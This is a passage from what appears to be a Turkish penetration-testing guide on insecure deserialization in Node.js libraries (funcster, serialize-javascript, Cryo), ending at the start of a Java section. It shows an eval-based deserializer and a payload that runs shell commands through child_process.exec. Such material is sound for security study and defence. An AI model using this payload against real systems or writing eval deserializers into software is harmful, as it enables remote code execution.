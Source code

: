 ```javascript
}
funcster.deepDeserialize(desertest3)
```
**Daha fazla bilgi için**[ **bu kaynağı okuyun**](https://www.acunetix.com/blog/web-security-zone/deserialization-vulnerabilities-attacking-deserialization-in-js/)**.**

### [**serialize-javascript**](https://www.npmjs.com/package/serialize-javascript)

**serialize-javascript** paketi yalnızca serialization amaçları için tasarlanmıştır; yerleşik herhangi bir deserialization yeteneğine sahip değildir. Kullanıcılar deserialization için kendi yöntemlerini uygulamaktan sorumludur. Resmî örnekte serialized verileri deserialize etmek için doğrudan `eval` kullanımı önerilmektedir:
```javascript
function deserialize(serializedJavascript) {
return eval("(" + serializedJavascript + ")")
}
```
Bu fonksiyon objects'i deserialize etmek için kullanılıyorsa, bunu **kolayca exploit edebilirsiniz**:
```javascript
var serialize = require("serialize-javascript")
//Serialization
var test = serialize(function () {
return "Hello world!"
})
console.log(test) //function() { return "Hello world!" }

//Deserialization
var test =
"function(){ require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) }); }()"
deserialize(test)
```
**Daha fazla bilgi için**[ **more information read this source**](https://www.acunetix.com/blog/web-security-zone/deserialization-vulnerabilities-attacking-deserialization-in-js/)**.**

### Cryo kütüphanesi

Aşağıdaki sayfalarda bu kütüphaneyi keyfi komutlar yürütmek için nasıl kötüye kullanabileceğinize dair bilgiler bulabilirsiniz:

- [https://www.acunetix.com/blog/web-security-zone/deserialization-vulnerabilities-attacking-deserialization-in-js/](https://www.acunetix.com/blog/web-security-zone/deserialization-vulnerabilities-attacking-deserialization-in-js/)
- [https://hackerone.com/reports/350418](https://hackerone.com/reports/350418)

## Java - HTTP

Java'da, **deserialization callbacks deserialization işlemi sırasında yürütülür**. Bu yürütme, bu callback'leri tetikleyen kötü amaçlı payload'lar oluşturan saldırganlar tarafından suistimal edilebilir ve zararlı eylemlerin potansiyel olarak yürütülmesine yol açabilir.
